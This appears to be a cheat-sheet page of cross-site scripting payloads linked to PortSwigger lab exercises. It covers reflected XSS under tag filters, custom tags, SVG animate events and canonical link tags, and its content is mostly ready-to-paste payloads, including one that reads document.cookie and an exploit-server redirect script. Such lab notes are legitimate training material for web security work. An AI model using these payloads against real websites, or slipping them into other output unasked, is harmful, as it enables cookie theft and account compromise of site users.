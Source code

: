 ### Reflected XSS into HTML Context with Most Tags and Attributes Blocked
Use:
```html
"><body onresize=alert(1337)>
```

### Reflected XSS into HTML Context with Custom Tags
Payloads:
```html
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
```
```html
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
For exploit server: 
```html
<script>
location = 'https://vulnweb.net/?search=%3Ccustom-tag+tabindex%3D%221%22+onfocus%3D%27alert(document.cookie)%27+id%3D%22a1%22%3E#a1';
</script>
```
**Portswigger Lab**

- [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

## Reflected XSS with Some SVG Markup Allowed
```html
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
```
```html
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```

---

## Reflected XSS in Canonical Link Tag
Make a custom URL:
```
http://example.com/?whoami=cyborg71
```
If the `whoami` parameter is reflected in the page source, try these payloads:
```javascript
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
```
```%09``` is used to indicate a horizontal tab. It's useful when application encodes the space character into %20 in the source code. 
```javascript
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
